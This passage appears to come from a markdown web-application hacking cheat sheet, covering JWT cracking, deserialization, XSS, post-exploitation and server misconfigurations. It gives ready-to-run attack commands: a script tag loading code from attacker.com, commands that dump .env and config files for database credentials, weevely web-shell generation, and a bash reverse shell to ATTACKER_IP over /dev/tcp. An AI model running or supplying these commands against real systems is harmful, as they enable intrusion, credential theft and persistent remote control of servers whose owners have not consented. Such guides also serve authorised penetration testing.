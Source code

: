 
## 6. Advanced Tricks

- JWT token cracking: try `john`, `jwt_tool`, weak secrets
```bash
jwt_tool -t token.jwt
```

- Deserialization: look for serialized objects in cookies or POST
```bash
echo "serialized_object" | python -c 'import pickle; print(pickle.loads(input()))'
```

- CSP bypass → steal sessions with clever XSS
```html
<script src="https://attacker.com/malicious.js"></script>
```

---

## 7. Post-Exploitation

Once you get RCE or access:
- Enumerate server (whoami, uname -a, netstat -tunlp)
```bash
whoami
uname -a
netstat -tunlp
```

- Dump `.env`, config files, DB creds
```bash
cat /var/www/.env
cat /var/www/config.php
```

- Pivot into internal admin panels
- Upload web shells or reverse shells (use `weevely`, `nishang`, `php-reverse-shell`)
```bash
weevely generate shell.php password
```
- Use reverse shell techniques:
```bash
nc -lvnp 4444
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

## 8. Exploiting Server Misconfigurations

### Nginx / Apache Configs
```bash
cat /etc/nginx/nginx.conf
cat /etc/apache2/sites-available/000-default.conf
```
